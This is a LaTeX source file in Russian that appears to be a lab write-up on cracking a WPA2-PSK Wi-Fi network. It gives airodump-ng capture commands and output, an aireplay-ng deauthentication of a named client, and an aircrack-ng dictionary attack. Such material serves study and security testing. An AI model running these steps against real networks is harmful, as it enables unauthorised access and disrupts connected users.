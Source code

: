 \documentclass[10pt,a4paper]{report}
\begin{document}
Нас интересует сеть 
\begin{verbatim}
1C:7E:E5:3E:AF:10    0       16        0    0   4  54e. WPA2 CCMP   PSK  417                                          
 \end{verbatim}
Запустим сбор трафика выбранной сети для получения аутентификационных сообщений:
\begin{verbatim}
sudo airodump-ng mon5 --write dump --bssid 1C:7E:E5:3E:AF:10 -c 4 
 CH  4 ][ Elapsed: 16 s ][ 2016-05-21 20:25                                         
                                                                                                                      
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID                                   
                                                                                                                      
 1C:7E:E5:3E:AF:10    0 100      175      185    1   4  54e. WPA2 CCMP   PSK  417                                     
                                                                                                                      
 BSSID              STATION            PWR   Rate    Lost  Packets  Probes                                            
                                                                                  
                                                                                                                      
 1C:7E:E5:3E:AF:10  34:E2:FD:21:9A:34    0    0e- 0      0      169                                                                     
\end{verbatim}
Видим, что к сети подключен один клиент с MAC-адресом 34:E2:FD:21:9A:34, проведем его деаутентификацию дляполучения необходимых для взлома сети сообщений.
\begin{verbatim}
 root@ann-K72JU:~# aireplay-ng -0 1 -a 1C:7E:E5:3E:AF:10 -c 34:E2:FD:21:9A:34 mon5
20:26:47  Waiting for beacon frame (BSSID: 1C:7E:E5:3E:AF:10) on channel 4
20:26:48  Sending 64 directed DeAuth. STMAC: [34:E2:FD:21:9A:34] [ 0|54 ACKs]
\end{verbatim}
После сбора аутентификацинный сообщений, проводим непосредственно взлом сети утилитой aircrack-ng. Передадим на вход утилите словарь паролей, в котором содержатся возможные пароли для сети.
\begin{verbatim}                               
sudo aircrack-ng dump*.cap -w password -b 1C:7E:E5:3E:AF:10
\end{verbatim}
\end{document}

